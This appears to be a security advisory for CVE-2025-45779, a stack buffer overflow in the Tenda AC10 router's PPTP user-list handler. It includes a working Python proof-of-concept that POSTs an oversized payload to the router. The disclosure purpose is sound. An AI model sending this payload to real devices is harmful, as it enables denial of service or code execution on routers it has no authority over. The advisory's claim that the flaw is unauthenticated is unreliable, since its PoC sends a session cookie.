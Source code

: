 # CVE-2025-45779 - Tenda AC10 V1.0 Stack Buffer Overflow in `formSetPPTPUserList`

## Summary

A stack-based buffer overflow vulnerability exists in the `formSetPPTPUserList` handler of  all firmware versions in the V15.xx series of the Tenda AC10 router.. This vulnerability allows remote unauthenticated attackers to execute arbitrary code or cause a denial-of-service (DoS) condition via a specially crafted `list` parameter in an HTTP POST request.

- **CVE ID**: CVE-2025-45779

- **Vendor**: Shenzhen Tenda Technology Co., Ltd.  https://www.tenda.com.cn/

- **Product**: Tenda AC10 V1.0

- **Firmware Version**: All versions in the V15 series (e.g., V15.03.06.46, V15.03.06.47, etc.)

- **Vulnerability Type**: Stack Buffer Overflow

- **Attack Vector**: Remote

- **Impact**: Remote Code Execution, Denial of Service

- **Discoverer**: You Sun (independent security researcher)

  

---

## Affected Firmware

- Firmware version: `V15.03.06.47`

- Official firmware download page: https://www.tendacn.com/download/detail-3796.html

<div align="center">
  <img src="./0.png" alt="demo" style="border: 2px solid black;" />
</div>


---

## Vulnerability Details

The vulnerability is located in the `formSetPPTPUserList` handler inside the `httpd` binary. When handling a POST request to `/goform/setPptpUserList`, the firmware copies the contents of the `list` parameter into a fixed-size stack buffer using unsafe string manipulation functions (e.g., `strcpy`, `sprintf`, etc.) without proper bounds checking.

By submitting a specially crafted payload that contains a large number of user entries, an attacker can overflow the buffer, leading to memory corruption, device crash, or potential arbitrary code execution with root privileges.
<div align="center">
<img src="./1.PNG" alt="demo" style="border: 2px solid black;" />
<img src="./2.PNG" alt="demo" style="border: 2px solid black;" />
<img src="./3.PNG" alt="demo" style="border: 2px solid black;" />
</div>

---
## Demo

<img src="./poc.gif" alt="demo" style="border: 2px solid black;" />


*The above GIF demonstrates the crash behavior when the vulnerability is triggered with the PoC.*

---

## Proof of Concept (PoC)：CVE-2025-45779-poc-TendaAC10.py

```python
import requests
cookie = {'Cookie':'SESSION_ID=2:1668665284:2','password': 'caw5gk'}
def gen_user(index):
    username = f"user{index:02d}".ljust(64, 'A')  # Each username is filled with 64 bytes
    password = f"pass{index}"
    uid = str(index)
    admin = "1"  # bypass admin check
    return f"{username};{password};{uid};{admin};x;x;x"

def build_payload(user_count=100):
    return "~" + "~".join([gen_user(i) for i in range(user_count)]) + "~"

def send_exploit(target_url):
    payload = build_payload()
    data = {
        "list": payload
    }

    print(f"[+] Sending payload to {target_url} ...")
    r = requests.post(target_url, data=data,cookies=cookie)
    print(f"[+] Response Status: {r.status_code}")
    print(f"[+] Response Body:\n{r.text}")
# router ip
base_url = "http://192.168.5.12"
set_url = f"{base_url}/goform/setPptpUserList"
try:
    send_exploit(set_url)
except Exception as e:
    print(f'An error  occurred: {e}')
```

